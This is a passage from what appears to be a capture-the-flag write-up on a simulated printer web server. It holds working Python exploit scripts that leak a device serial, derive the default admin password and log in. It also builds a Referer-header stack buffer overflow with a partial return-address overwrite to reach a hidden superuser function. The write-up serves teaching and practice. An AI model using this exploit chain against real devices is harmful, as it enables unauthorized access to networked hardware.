"Nei%6NwR", "BnUWBHg6", "FwGyWrux", "mwkuuGXX", "WR$LK5Qu", "Lxs4DgNM", "KAYMHcKy", "UnWYeeUp", "2cc3EzeX","7nVPpdCd", "LDPgHa9b", "Yfwsz7zR", "tGhb9Ych", "Gxi4S8jC", "QEiWU2cm", "PFhyTxjN", "LrpTgGLw", "PUfziDzE", "ACbmRneN","gYmjyNjF", "RuZctKSS", "k8KdHgDB", "pJEA3hSG", "X6rbghrk", "9mnbf3up", "4WU2hMHx", "TgmNEn45", "zRnQReEn", "DfsPzxsX","UyScxhhw", "knEsS3CX", "xuPUKwFf", "Ks4nKt2z", "trBf!b67", "rhHgt4gX", "2N8sPf#d", "eFMjhMcB", "aWLeRu9M", "4MiN4D63","5nG9jMGh", "SA5pnyQ6", "UnSQ94nx", "kPjzBBxy", "6CppHT3R", "3VPgRgiL", "cP9JJDJr", "MyMWzUMj", "xyG4ACEd", "dbnAbG8e","RnHGYc6F", "ktCQnJWk", "XBt5Vxr2", "wH6iY9f9", "atB4eri8", "8SdHujf8", "inLRdn5s", "Fh3N*pWc", "Fb3XYtZz", "GADACWcS","r8tsDgph", "EumHNmFg", "rRFKrK2x", "TQ9nUnNk", "P5hss6GX", "mX8ZSQtr", "BJMjyd7H", "EC7r5fEm", "TPjQpDaa", "SZeMDpfR","XEDJeraW", "YYNTgsah", "6uupfWF!", "7RcTLwHX", "ycYr3dwT", "7VwCnTFQ", "JGF6iigf", "M72Kea4f", "ZxfZWbVb", "NcT3LGBV","HBU68uaa", "UeHK4pnf", "sDjzNHHd", "CGjgeutc", "PC4JbuC2", "tNYQc7Xs", "RGNsJQhD", "HKEh2fba", "49x4PLUz", "N6MLNkY5","NrMHeE9d", "j5NkznV4", "n8At3YKi", "ZnHwAEnZ", "3LnUmF8E", "RBXzdUpA", "FwGHBVej", "3wkkik7E", "fpyGnp2u", "ANBwfiPb","Ztt8X9zG", "47K7QWix", "TzJfUdNY", "hpD?MEAm", "sJRh4Jni", "TyQUgEEH", "FBJnWWwx", "7cN3GH6e", "hWQhzFTN", "GamDhsgZ","yXM4cZKt", "9BJPKtaC", "NVNpe4kJ", "uSyxGxbz", "h5zTpV3U", "TAajcQ4h", "VjYMEusS", "Wpj237VG", "yAjHYVVV", "Hb6k7Cwe","yZbuDBEi", "S4wpBmZM", "DwFra8wk", "j#Pk5r9W", "PjkfS9WB", "gHf3YGA3", "ihDtdUCu", "KARzJDfR", "M7fApB5U", "MiD44gRC","RdEM8y5W", "4GsGuPag", "pETQc4k2", "pZZu7Ras", "AJReAUBy", "EAMmQsWe", "BeC2XJi8", "PujT2eRf", "2UXLeAJu", "hMPbY3MQ","QeawRP*p", "SbCbW9Tf", "EhNNtLyj", "B8RjceGs", "LaydmLeD", "JFR7T47f", "WCbAdTfm", "srN9gNSE", "gAn7h8Yp", "4PnTKVse","HDxGwLsN", "tR8XUSRg", "wLe-3Xf8", "zH7cpxsd", "tCc5sWFX", "3hzTj5BS", "hLK6f&g4", "tCzzSsm7"]

# Map charset to printer alphabet
def _map_chars(s):
    m = {'l': '#', 'I': '$', 'z': '%', 'Z': '&', 'b': '*',
         'q': '-', 'O': ':', 'o': '?', 'v': '@', 'y': '>'}
    return ''.join(m.get(c, c) for c in s)

# Derive default password from serial
def derive_password(serial):
    s = sum(int(ch) for ch in serial if ch.isdigit()) & 0xFF
    data_idx = SALT_LOOKUP_TABLE[s] & 0xFF
    salt = SALT_DATA_TABLE[data_idx].encode('latin-1')
    buf = bytearray(24)
    ser16 = (serial[:16]+'0'*(16-len(serial[:16]))).encode('ascii')
    buf[:16] = ser16
    for k in range(8):
        buf[16+k] = (salt[7-k]-1) & 0xFF
    b64 = base64.b64encode(hashlib.sha256(bytes(buf)).digest()).decode('ascii')
    return _map_chars(b64[:24])

# CSV leak for serial
def leak_serial(base, s):
    r = s.get(f"{base.rstrip('/')}/etc/mnt_info.csv", timeout=8)
    r.raise_for_status()
    lines = [l for l in r.text.splitlines() if l.strip()]
    row = next(iter(csv.DictReader(lines)))
    return row.get("serial") or ""

# Login; returns flag3 header and sets AuthCookie
def login(base, password, s):
    s.get(f"{base.rstrip('/')}/login", timeout=6)
    r = s.post(f"{base.rstrip('/')}/login", data={"username": "admin",
               "password": password}, allow_redirects=False, timeout=8)
    if r.status_code not in (200, 302):
        raise RuntimeError("login failed")
    if not any(c.name == "AuthCookie" for c in s.cookies):
        raise RuntimeError("no authcookie")
    return r.headers.get("X-Flag-3", "")

ap = argparse.ArgumentParser()
ap.add_argument("base_url", nargs="?", default="http://127.0.0.1:8000")
args = ap.parse_args()

s = requests.Session()
base = args.base_url.rstrip("/")
print(f"[+] Target: {args.base_url}")

# Leak serial from /etc/mnt_info.csv
serial = leak_serial(base, s)
print(f"[+] Leaked serial: {serial}")

# Derive password from serial and login
pw = derive_password(serial)
print(f"[+] Derived password: {pw}")
f3 = login(base, pw, s)
print("[+] Logged in (AuthCookie set)")
if f3:
    print(f"[*] FLAG_3: {f3}")
```

Let's try to run the script against the remote server.

```bash
python gen_pass.py

[+] Target: http://REMOTE_SERVER
[+] Leaked serial: SN3342672508
[+] Derived password: WD/9LdWiM@YS4xcFp&j0:n%&
[+] Logged in (AuthCookie set)
[*] FLAG_3: flag3{fake_flag}
```

We've successfully chained together the first two exploits, gaining remote authentication to the printer 🔥

_Fun fact: the real CVE could not be patched because the password generation software was run during the manufacturing process (like this challenge), it was not part of the printer firmware._

#### Unintended Path (patched)

It didn't occur to me until after the challenge launched how easy it _was_ to bypass this step. Once you've leaked the serial you can simply run `printer_build` locally with a dummy C file and the leaked serial exported as an environment variable.

```bash
export SERIAL=SN4321317561; ./printer_build dummy.c printer

printer_build: serial=SN4321317561
printer_build: default_admin_password=MH6Cn1Ue8BTkE2wnDU?sS%//
printer_build: compile cmd: gcc -o printer printer.c -fno-stack-protector -fno-omit-frame-pointer -no-pie -O0 -include build_cfg.h  -lcrypto
```

That provides the default password, removing the need to reverse engineer the second binary _at all_, let alone write a password derivation script 😢 I patched this on the second day of challenge release so that it no longer accepted the serial from an ENV var (only random serials and their derived passwords). It is still relatively easy to bypass by patching the binary or using a debugger, but at least it increases the skill threshold a little.

### Buffer Overflow (referer header)

With `flag3` secured, we can repeat the process of identifying the READ reference for `flag4`. We'll arrive at the `manage_jobs` function. I've renamed some variables/functions in line with the behaviour, e.g. if `DAT_004072b0` is zero, the server will return "401 Unauthorized". If `DAT_004072b0` is non-zero, the server will return the flag!



Unfortunately for us, the value is initialised as zero.



Checking the references for write operations; `FUN_00402dba` sets the value to `1` ✅



However, if we check the references to this function we'll realise it is never called! ❌



In other words, there's no possible execution path in the program that will arrive at this section of code. There is a well-known attack type that can be used to redirect the flow of execution, though... Let's look for a buffer overflow 🕵️‍♂️

Aside from the `/jobs/manage` we're currently trying to access, there is a `/stats` endpoint. If the user is authenticated, it will generate a CSRF token and return it along with some device statistics.



No buffer overflow there. There are `/print` and `/scan` endpoints, which activate the same function (I renamed it to `post_job`). There's quite a lot of functions/code involved here, so I'll rename everything first, like so:



Until we have more readable code:



To issue a job request, the following requirements must be met:

1. CSRF token is validated (`[345]`)
2. Referer header path is checked (`[352]`)
3. Host header is checked (`[356]`)

#### Obtaining a CSRF Token

Let's update our script from earlier to send a job. I'll hardcode the credentials to save space.

```python
#!/usr/bin/env python3
import argparse
import requests
import re
from urllib.parse import urlparse

# Login; sets AuthCookie
def login(base, password, s):
    s.get(f"{base.rstrip('/')}/login", timeout=6)
    r = s.post(f"{base.rstrip('/')}/login", data={"username": "admin",
               "password": password}, allow_redirects=False, timeout=8)
    if r.status_code not in (200, 302):
        raise RuntimeError("login failed")
    if not any(c.name == "AuthCookie" for c in s.cookies):
        raise RuntimeError("no authcookie")

# Get CSRF token from /stats
def get_csrf(base, s):
    r = s.get(f"{base.rstrip('/')}/stats", timeout=6)
    if r.status_code != 200:
        raise RuntimeError("/stats failed")
    m = re.search(
        r"<meta\s+name=['\"]csrf-token['\"]\s+content=['\"]([^'\"]+)['\"]", r.text, re.I)
    if not m:
        raise RuntimeError("csrf missing")
    return m.group(1)

# Send a job to the /print or /scan endpoint
def send_job(base, token, authcookie, action, s):
    parsed = urlparse(base)
    host = parsed.hostname or "127.0.0.1"
    scheme = parsed.scheme or "http"
    headers = {"Host": host, "X-CSRF-Token": token,
               "Referer": f"{scheme}://{host}/stats", "Cookie": f"AuthCookie={authcookie}"}
    return s.post(f"{base.rstrip('/')}/{action}", headers=headers, timeout=5)

ap = argparse.ArgumentParser()
ap.add_argument("base_url", nargs="?", default="http://127.0.0.1:8000")
args = ap.parse_args()

s = requests.Session()
base = args.base_url.rstrip("/")
print(f"[+] Target: {args.base_url}")

# Login
password = "dBSEME&P*YRTVPjh$4mm-0cX"
login(base, password, s)
print("[+] Logged in (AuthCookie set)")

# Get CSRF token (required for /print + /scan endpoints)
token = get_csrf(base, s)
print(f"[+] CSRF token: {token}")

# Send a job to the /print or /scan endpoint
cookie = next((c.value for c in s.cookies if c.name == "AuthCookie"), None)
response = send_job(base, token, cookie, "print", s)
print(response.text)
```

Note that the `Referer` header path must match the CSRF token issuing path (`/stats`).

```bash
python gen_pass.py

[+] Target: http://127.0.0.1:8000
[+] Logged in (AuthCookie set)
[+] CSRF token: L3N0YXRzfDE3NjI4NjM3OTl8MzE2Y2JlOTcyYjNiYTA5MQ==
{"status":"queued","job_id":"job-1234"}
```

We can decode the CSRF token to confirm the contents.

```bash
echo -n "L3N0YXRzfDE3NjI4NjM3OTl8MzE2Y2JlOTcyYjNiYTA5MQ==" | base64 -d

/stats|1762863799|316cbe972b3ba091
```

#### Understand the Flow

In any case, we've satisfied all the conditions and received the expected response. Now, let's dig into the functions in search of a vulnerability. I renamed the variables/functions in `decode_csrf_token` and converted hex values to decimal.


1. CSRF token is base64 decoded (`[28]`)
2. The result is split (`|`) into three chunks (`[37]`)
3. If the `Origin` header is present (`[48]`), jump to `[73]` and copy its value to the `host_buffer` (`[78]`)
4. If it's not present, copy the host portion (`[52]` + `[61]`) of the `Referer` header to `host_buffer` (`69`)

TL;DR: if we provide an `Origin` header, its value will be compared to the `Host` header (`[356]` of the calling function). If not, the value of the **host portion** of the `Referer` header (`http://thisisthehost/this/is/the/path`) will be compared to the `Host` header value instead.

So, where is the buffer overflow? Remember we have these two variables:

```c
char host_buffer [2048];
char host [72];
```

If we supply an origin header, the value will be copied from `host_buffer` to `host` (`[78]`)

```c
strncpy(host,host_buffer,63);
```

It's only copying 63 bytes, so that doesn't overflow the 72-byte `host` variable. What if we provide the referer header instead? It copies `host_len` bytes from `host_buffer` to `host` (`[67]` + `[69]`):

```c
host_len = strlen(host_buffer);
memcpy(host,host_buffer,host_len);
```

So, if we set the host portion of the referer header to 2048 characters, the program will copy it into a 72-byte buffer - a classic overflow! Let's run the binary in `pwndbg` so that we can see any crashes.

```bash
gdb-pwndbg printer
run
```

Update the function in the previous script.

```python
def send_job(base, token, authcookie, action, s):
    parsed = urlparse(base)
    host = parsed.hostname or "127.0.0.1"
    scheme = parsed.scheme or "http"
    payload = "A" * 1337
    headers = {"Host": host, "X-CSRF-Token": token,
               "Referer": f"{scheme}://{payload}/stats", "Cookie": f"AuthCookie={authcookie}"}
    return s.post(f"{base.rstrip('/')}/{action}", headers=headers, timeout=5)
```

We'll see the program crashes with a segmentation fault because `AAAAAAAA` is not a valid instruction.



We overflowed the `host` variable, along with all the other variables on the stack until we overwrote the saved return address.



#### Crafting an Exploit

We want to find the offset of the RIP, i.e. how many bytes do we need to write before we will reach the saved instruction pointer. From there we can redirect the flow of execution to a function of our choice; the one which enables the flag (lets call it "debug" or "superuser") that will activate the `/jobs/manage` endpoint.

Start by generating a cyclic pattern in pwndbg.

```c
cyclic 1000

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaaccaaaaaacdaaaaaaceaaaaaacfaaaaaacgaaaaaachaaaaaaciaaaaaacjaaaaaackaaaaaaclaaaaaacmaaaaaacnaaaaaacoaaaaaacpaaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacvaaaaaacwaaaaaacxaaaaaacyaaaaaaczaaaaaadbaaaaaadcaaaaaaddaaaaaadeaaaaaadfaaaaaadgaaaaaadhaaaaaadiaaaaaadjaaaaaadkaaaaaadlaaaaaadmaaaaaadnaaaaaadoaaaaaadpaaaaaadqaaaaaadraaaaaadsaaaaaadtaaaaaaduaaaaaadvaaaaaadwaaaaaadxaaaaaadyaaaaaadzaaaaaaebaaaaaaecaaaaaaedaaaaaaeeaaaaaaefaaaaaaegaaaaaaehaaaaaaeiaaaaaaejaaaaaaekaaaaaaelaaaaaaemaaaaaaenaaaaaaeoaaaaaaepaaaaaaeqaaaaaaeraaaaaaesaaaaaaetaaaaaaeuaaaaaaevaaaaaaewaaaaaaexaaaaaaeyaaaaaae
```

Paste the cyclic pattern into our script (in place of the A's) and run the exploit again.



We can look up the offset of the pattern that was in the RSP register when the program crashed.

```c
cyclic -l raaaaaaa

Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

We have the offset (136) and the address of the function we found earlier is `0x402dba`, _but_ we have a problem. Let's test this out, we'll set a breakpoint at the `ret` instruction in the `decode_csrf_token` function (where our overflow is):



```bash
break *0x40365b

Breakpoint 1 at 0x40365b
```

Update the exploit script (we need the `RemoteDisconnected` addition) and run it again.

```python
from pwn import *
from http.client import RemoteDisconnected

def send_job(base, token, authcookie, action, s):
    parsed = urlparse(base)
    host = parsed.hostname or "127.0.0.1"
    scheme = parsed.scheme or "http"
    OFFSET = 136
    addr = 0x402dba
    payload = flat({OFFSET: [addr]})
    headers = {"Host": host, "X-CSRF-Token": token,
               "Referer": f"{scheme}://{payload.decode('latin-1')}/stats", "Cookie": f"AuthCookie={authcookie}"}
    return s.post(f"{base.rstrip('/')}/{action}", headers=headers, timeout=5)

# Get CSRF token (required for /print + /scan endpoints)
token = get_csrf(base, s)
print(f"[+] CSRF token: {token}")

# Call the manage_jobs function
r = s.get(base.rstrip('/') + '/jobs/manage').text.strip("\n")
print(f'Accessing /jobs/manage before overflow: {r}')

# Send a job to the /print or /scan endpoint
cookie = next((c.value for c in s.cookies if c.name == "AuthCookie"), None)
try:
    print("[+] Sending buffer overflow payload")
    send_job(base, token, cookie, "print", s)
except (requests.exceptions.ConnectionError, RemoteDisconnected):
    pass

# Call the manage_jobs function
r = s.get(base.rstrip('/') + '/jobs/manage').text.strip("\n")
print(f'Accessing /jobs/manage after overflow: {r}')
```

#### Debugging (bad chars)

We don't hit our breakpoint 🤔 This wasn't the problem I anticipated, and it required a little debugging. I set up a breakpoint at the `memcpy`, it didn't trigger. I set another at the start of the else clause, it didn't trigger. It took me a while to trace back to the HTTP endpoints handler, with a breakpoint at line 76 (`0x404ac6`)



Skip the first breakpoint (`/login`) quickly. The second one is for us (`/print`) and notice it searches a haystack (`0x4082a0` = our POST request) for a needle (`0x405613` = `"\r\n\r\n"`)



Let's print out the POST request.

```bash
x/8s 0x4082a0

0x4082a0:	"POST /print HTTP/1.1\r\nUser-Agent: python-requests/2.28.1\r\nAccept-Encoding: gzip, deflate, br\r\nAccept: */*\r\nConnection: keep-alive\r\nHost: 127.0.0.1\r\nX-CSRF-Token: L3N0YXRzfDE3NjI4ODcyNzh8YTUzZWIzZGFhYz"...
0x408368:	"cyYWY0MQ==\r\nReferer: http://aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaab\272-@"
0x408410:	"/stats\r\nCookie: AuthCookie=e24ba52d3e59689ec6e85b5ed02a91c5\r\nContent-Length: 0\r\n\r\n"
```

Looks like it doesn't like those hex characters (`0x402dba`), and it cuts off the request, so the `"\r\n\r\n"` isn't found and the request never gets processed. If we step to the next instruction, we'll see the RAX register is set to zero (no match).



It's actually a similar problem to the one I anticipated! When testing originally, the exploit failed due to null bytes in the referer header (`0x402dba` is packed to 64 bits, i.e. `0x0000000000402dba`). The reason it crashed out earlier this time is the address offset changed at some stage when I modified + recompiled the code, i.e. it just so happened that the function address in the previous binary didn't contain any bad characters. Even if that were the case here, we would still run into the null byte issue, and the fix for both problems is the same:

We don't need to write the full address because the original saved RIP already begins with `0x402`; we only need to write the three least significant bytes (`dba`). Let's see how the hex looks.

```bash
unhex 402dba

@-�
```

```bash
unhex dba

�
```

Let's update the exploit script to do a 3-byte overwrite.

```python
addr = 0x402dba
target_bytes = pack(addr)[:3]
payload = flat({OFFSET: [target_bytes]})
```

Run it again, and we hit the breakpoint we wanted (`ret` instruction) - everything looks good! The next instruction to be executed after the function returns is `0x402dba` (our target) and we can see the superuser flag will be enabled at `0x402dc8`


We continue the execution and find that it worked: the `/jobs/manage` endpoint was inaccessible before the buffer overflow and returns 200 OK afterwards.

```bash
python gen_pass.py

[+] Target: http://127.0.0.1:8000
[+] Logged in (AuthCookie set)
[+] CSRF token: L3N0YXRzfDE3NjI4OTI0MTV8NDUwY2ViNzM5MjVhYTI0Zg==
Accessing /jobs/manage before overflow: Unauthorized
[+] Sending buffer overflow payload
Accessing /jobs/manage after overflow: {"status":"ok","flag":"NO_FLAG_SET"}
```

We can repeat this against the remote server for the real flag. Remember to update the hardcoded creds, or reintroduce the password generation function (see [PoC](#PoC) for the full chain).

### SSRF (admin endpoint)

The fifth (and final) flag isn't mentioned anywhere in the program, which hints that we either need RCE on the printer or that it's on the website like the first flag. Recall the `/admin` endpoint that can only be accessed by "local admins"?

That brings us back to the `/jobs/manage` endpoint. We already made a GET request to confirm it was activated (and recover the flag), but there is also a POST handler (I've renamed variables).

